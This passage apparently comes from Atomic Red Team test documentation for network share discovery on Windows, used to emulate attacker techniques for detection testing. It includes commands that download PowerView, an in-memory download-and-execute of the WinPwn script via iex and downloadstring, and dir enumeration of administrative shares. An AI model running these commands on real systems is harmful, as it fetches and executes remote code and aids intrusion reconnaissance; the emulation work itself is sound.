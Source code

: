 ```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/darkoperator/Veil-PowerView/8784e33f17ee7543ba2f45e27dc5f08ea3a1b856/PowerView/powerview.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
```

<br/>
<br/>

## Atomic Test #9 - WinPwn - shareenumeration

Network share enumeration using the shareenumeration function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 987901d1-5b87-4558-a6d9-cffcabc638b8

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
shareenumeration -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #10 - Network Share Discovery via dir command

Network Share Discovery utilizing the dir command prompt. The computer ip variable may need to be modified to point to a different host ip
Upon execution avalaible network shares will be displayed in the commandline session

**Supported Platforms:** Windows

**auto_generated_guid:** 13daa2cf-195a-43df-a8bd-7dd5ffb607b5

#### Inputs:

| Name        | Description                     | Type   | Default Value |
| ----------- | ------------------------------- | ------ | ------------- |
| computer_ip | Computer IP to find a mount on. | string | 127.0.0.1     |

#### Attack Commands: Run with `command_prompt`!

```cmd
dir \\#{computer_ip}\c$
dir \\#{computer_ip}\admin$
dir \\#{computer_ip}\IPC$
```

<br/>
